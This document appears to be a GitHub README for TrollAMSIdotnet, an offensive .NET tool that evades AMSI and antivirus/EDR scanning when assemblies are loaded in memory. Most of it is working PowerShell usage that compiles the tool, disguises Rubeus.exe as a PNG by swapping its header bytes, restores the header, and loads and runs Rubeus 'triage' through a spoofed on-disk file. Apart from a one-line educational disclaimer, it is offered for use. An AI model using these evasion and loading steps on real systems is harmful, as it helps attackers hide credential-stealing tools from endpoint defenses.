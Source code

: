 # TrollAMSIdotnet
![Image](https://github.com/user-attachments/assets/7cf1900b-d2f3-4d80-9929-3e89c96f7cfa)
TrollAMSI only bypasses powershell's amsi and not the CLR amsi during Assembly.Load(). Was looking for a troll way to do this but seems like already done in the most epic way possible: https://github.com/G0ldenGunSec/SharpTransactedLoad. Read his blog for full details on his ingenious approach to bypassing amsi. G0ldenGunSec's implementation uses easyhook.dll for hooking which inturn requires cody fostura. Due to the proliferated use of both libraries in offensive security projects, they have been signaturized. Decided to re-write the hooking aspect to make it opsec safer. Ended up just copy pasting code to create a single .cs file for convenience. 

**Note:** Only .cs version released, you can just compile it to an assembly and load it (refer to instructions below) 

## Why is this technique so powerful? (i.e works on many powerful AV/EDR)
Because even if you bypass amsi, when you do any sort of assembly.load, the byte array is scanned during virtualalloc, etc by the AV/EDR. This spoofs a byte array to appear on disk and the AV/EDR will not re-scan the byte array due to unnecessary overhead, since it is already assumed to be scanned when on disk. 

![Image](https://github.com/user-attachments/assets/c893ef11-20a5-455a-a62c-1d6a717884fe)
## Usage Trollamsidotnet.cs
```
#First download TrollAmsiDOTNET.cs and dog.png (taken from flangvik/SharpCollection nightly build, you can sha1 the bytes before loading to check)

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /nologo /optimize /out:TrollAmsiDOTNET.dll /target:library TrollAmsiDOTNET.cs > $null
$MZHeader = [byte[]](0x4D, 0x5A, 0x90, 0x00, 0x03, 0x00, 0x00, 0x00)
$fileBytes = [System.IO.File]::ReadAllBytes("C:\troll\dog.png")
for ($i = 0; $i -lt 8; $i++) {$fileBytes[$i] = $MZHeader[$i] }
[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\troll\TrollAmsiDOTNET.dll")) > $null
#[string[]]$myargs = "triage","/consoleoutfile:C:\troll\hehe.txt"
[string[]]$myargs = "triage"
$entryPoint = ([TrollAmsiDOTNET]::SpoofFileLoad($fileBytes,"Rubeus.exe")).EntryPoint
$entryPoint.Invoke($null, (,$myargs))

```
## Usage Trollamsidotnet2.cs
```
#This is a more generic library for Trollamsidotnet that works spoofs any files/path (not just assemblies) 
#Any attempt to read from <path> will now read the $filebytes, so LoadFrom(<path>) works as well
#<path\file> can already exist or not, but you must be able to write to that path, so desktop is good to start with

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /nologo /optimize /out:TrollAmsiDOTNET2.dll /target:library TrollAmsiDOTNET2.cs > $null
$MZHeader = [byte[]](0x4D, 0x5A, 0x90, 0x00, 0x03, 0x00, 0x00, 0x00)
$fileBytes = [System.IO.File]::ReadAllBytes("C:\troll\dog.png")
for ($i = 0; $i -lt 8; $i++) {$fileBytes[$i] = $MZHeader[$i] }
$path = "c:\users\admin\desktop\blah.txt"
[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\troll\TrollAmsiDOTNET2.dll")) > $null
[TrollAmsiDOTNET2]::SpoofFileOnDisk($path, $fileBytes)

#Do **standard** loading of assembly with LoadFrom and invoke entrypoint
$entryPoint = ([System.Reflection.Assembly]::LoadFrom($path)).EntryPoint
[string[]]$myargs = "triage"
$entryPoint.Invoke($null, (,$myargs))

```

## Code to change MZ header to PNG header 
```
$infile = "C:\troll\Rubeus.exe"
$outfile = "C:\troll\dog.png"
$pngMagicBytes = [byte[]](0x89, 0x50, 0x4E, 0x47, 0x0D, 0x0A, 0x1A, 0x0A)
$fileBytes = [System.IO.File]::ReadAllBytes($infile)
for ($i = 0; $i -lt 8; $i++) {$fileBytes[$i] = $pngMagicBytes[$i] }
[System.IO.File]::WriteAllBytes($outfile, $fileBytes)
```

## Disclaimer
Should only be used for educational purposes!
